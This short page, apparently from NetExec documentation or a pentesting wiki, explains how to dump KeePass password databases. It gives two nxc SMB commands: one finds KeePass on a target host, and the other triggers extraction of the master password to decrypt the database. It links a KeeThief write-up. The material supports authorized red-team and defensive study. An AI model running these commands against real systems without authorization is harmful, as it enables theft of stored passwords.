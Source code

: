 # Dump KeePass

You can check if keepass is installed on the target computer and then steal the master password and decrypt the database !

```bash
nxc smb <ip> -u user -p pass -M keepass_discover
nxc smb <ip> -u user -p pass -M keepass_trigger -o KEEPASS_CONFIG_PATH="path_from_module_discovery"
```

{% embed url="https://web.archive.org/web/20211017083926/http://www.harmj0y.net:80/blog/redteaming/keethief-a-case-study-in-attacking-keepass-part-2" %}
